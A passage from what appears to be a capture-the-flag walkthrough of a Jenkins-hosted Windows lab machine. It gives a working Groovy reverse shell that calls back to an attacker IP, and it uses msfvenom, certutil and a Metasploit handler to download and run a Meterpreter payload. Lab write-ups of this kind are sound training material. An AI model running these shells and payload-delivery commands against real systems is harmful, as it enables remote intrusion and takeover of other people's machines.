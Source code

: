Then start a nc listener and enter a Groovy Reverse Shell there:

```shell
# Start nc listener
nc -lvnp 8443
```

```shell
String host="10.11.113.193";
int port=8443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

It worked! We got a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.58.177] 49219
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins>whoami
whoami
alfred\bruce
```

### Upgrade Shell to Meterpreter and load PowerShell
Trying to run PowerShell on the initial shell from Groovy reverse shell is a catastrophe.

Lets use meterpreter to get a stable PowerShell.

First create payload with msfvenom and move it:

```shell
# Create payload
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.113.193 LPORT=8080 -f exe -o met.exe

# Start python server on Kali
python3 -m http.server 80

# On target CLI, use certutil to move met.exe
cd C:\Users\bruce\Desktop
certutil.exe -urlcache -split -f http://10.11.113.193:80/met.exe
```

Start multi handler on Kali:

```shell
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.11.113.193
set LPORT 8080
run
```
